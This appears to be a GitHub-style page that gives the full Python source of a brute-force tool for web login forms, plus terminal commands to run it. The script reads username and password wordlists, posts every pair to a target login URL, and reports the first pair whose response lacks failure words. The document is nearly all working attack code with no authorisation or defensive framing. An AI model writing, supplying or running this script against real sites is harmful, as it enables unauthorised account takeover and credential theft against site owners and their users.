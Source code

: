 # Web Login Brute-Force Script

This Python script is designed to perform brute-force attacks on web login forms by attempting a combination of usernames and passwords from specified wordlists.

Create a file named `bruteforce.py` and add the following content:
```python
#!/usr/bin/python3

import requests
import sys
from colorama import Fore
import pyfiglet

font = pyfiglet.figlet_format('Brute Force')
print(Fore.CYAN + font)

# Updated usage message
if len(sys.argv) < 3 or len(sys.argv) > 4:
    print(f"Usage: {sys.argv[0]} <url> <password_file> [username | username_file]")
    print(f"Example 1: {sys.argv[0]} http://example.com/login passwords.txt admin")
    print(f"Example 2: {sys.argv[0]} http://example.com/login passwords.txt usernames.txt")
    sys.exit(1) # Exit if usage is incorrect

login_url = sys.argv[1]
passwordlist_path = sys.argv[2]
username_arg = sys.argv[3] # This can be a username or a path to a username file

session = requests.Session()

def brute_force():
    # Determine if username_arg is a single username or a file
    usernames = []
    try:
        # Try to open it as a file first
        with open(username_arg, 'r') as uf:
            usernames = [line.strip() for line in uf if line.strip()]
        print(f"[INFO] Using usernames from file: {username_arg}")
    except FileNotFoundError:
        # If it's not a file, treat it as a single username
        usernames.append(username_arg)
        print(f"[INFO] Using single username: {username_arg}")

    if not usernames:
        print(f"[ERROR] No usernames to try. Please provide a valid username or a non-empty username file.")
        sys.exit(1)

    with open(passwordlist_path, 'r') as pf:
        passwords = [line.strip() for line in pf if line.strip()]

    if not passwords:
        print(f"[ERROR] No passwords to try. Please provide a non-empty password file.")
        sys.exit(1)

    print(f"[INFO] Starting brute force against {login_url}...")

    for username in usernames:
        for password in passwords:
            data = {'username': username, 'password': password}

            try:
                response = session.post(login_url, data=data)

                # Check if "Invalid" is NOT in the response text.
                # You might need to adjust this condition based on the target website's error message.
                if "Invalid" not in response.text and "incorrect" not in response.text and "failed" not in response.text:
                    print(Fore.GREEN + f"[+] Found valid credentials: {username}:{password}")
                    return # Exit after finding the first valid credential
                else:
                    print(Fore.RED + f"[-] Attempted: {username}:{password}")
            except requests.exceptions.RequestException as e:
                print(Fore.YELLOW + f"[WARNING] Request failed for {username}:{password} - {e}")
                continue # Continue to the next attempt even if one fails

    print(Fore.YELLOW + "[-] Brute force completed. No valid credentials found with the provided lists.")

brute_force()
```

---

### How to Run
Execute the script from your terminal providing the target URL, username file, and password file as arguments:
```bash
$ python3 bruteforce.py https://example.com/login.php passwords.txt username.txt
```

Alternatively, you can make the script executable and run it directly:
```bash
$ chmod +x bruteforce.py
$ ./bruteforce.py https://example.com/login.php passwords.txt username
```
Make sure you have `usernames.txt` and `passwords.txt` files (or whatever you name them) in the same directory where you run the script, or provide their full paths.

---
